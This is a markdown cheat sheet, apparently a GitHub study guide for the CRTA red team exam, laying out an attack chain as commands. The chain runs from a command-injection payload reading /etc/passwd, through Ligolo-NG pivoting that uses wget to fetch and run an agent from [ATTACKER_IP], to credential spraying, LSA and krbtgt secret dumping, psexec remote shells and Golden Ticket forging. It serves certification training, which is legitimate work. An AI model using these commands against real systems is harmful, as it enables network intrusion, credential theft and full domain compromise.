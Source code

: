 # 🛡️ Red Team Analyst [CRTA] Certification

This guide outlines the main commands used in CRTA exam



## 🔍 1. Recon & Scanning

```bash
# Ping-sweep external network
nmap -sn [TARGET_SUBNET]/24

# Version & script scan on a discovered host
nmap [TARGET_IP] -sC -sV
````

---

## 🌐 2. Web Enumeration & Injection

```bash
# Identify and access web login/signup page
# Inject into vulnerable field (example):
; cat /etc/passwd
```

---

## 🔑 3. Gaining Access via SSH

```bash
# SSH login using harvested credentials
ssh [USERNAME]@[TARGET_IP]

# Enumerate Firefox or browser history
cat ~/.bash_history
```

---

## 🔄 4. Pivoting with Ligolo-NG

```bash
# On attacker machine
./proxy -selfcert

# Host agent binary
python3 -m http.server 8000

# On target
wget http://[ATTACKER_IP]:8000/agent
chmod +x agent
./agent -connect [ATTACKER_IP]:[PORT] -ignore-cert

# Setup tunnel interface
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
sudo ip route add [INTERNAL_SUBNET]/24 dev ligolo
```

---

## 🔎 5. Internal Network Scanning

```bash
# Discover hosts in the internal network
sudo nmap [INTERNAL_SUBNET]/24 -sn

# Detailed scans on live hosts
sudo nmap [INTERNAL_IP] -sC -sV
```

---

## 🔓 6. Lateral Movement via SMB

```bash
# Credential spraying
crackmapexec smb [HOSTS_FILE] -u [USER] -p '[PASSWORD]'

# Remote shell
psexec.py [DOMAIN]/[USER]:'[PASSWORD]'@[TARGET]

# Dump secrets
crackmapexec smb [TARGET] -u [USER] -p '[PASSWORD]' --lsa
```

---

## 🧠 7. Domain Escalation

```bash
# View domain controllers
nltest /dclist

# List domain users
net user /domain

# Update local DNS resolution
sudo nano /etc/hosts
# Add: [DC_IP] [FQDN]
```

---

## 🥇 8. Golden Ticket Attack

```bash
# Dump krbtgt hash
secretsdump.py -just-dc-user 'krbtgt' [DOMAIN]/[USER]:'[PASSWORD]'@[DC_HOST]

# Extract domain SID
lookupsid.py [DOMAIN]/[USER]:'[PASSWORD]'@[DC_HOST]

# Create Golden Ticket
ticketer.py \
  -domain [DOMAIN] \
  -aesKey [KRBTGT_HASH] \
  -domain-sid [DOMAIN_SID] \
  -groups 516 \
  -user-id [USER_ID] \
  -extra-sid [EXTRA_SID] \
  [USERNAME]

# Set environment and get service ticket
export KRB5CCNAME=corpmngr.ccache
getST.py -spn 'CIFS/[HOST]' -k -no-pass [DOMAIN]/[USER]
```

---

## ✅ Notes



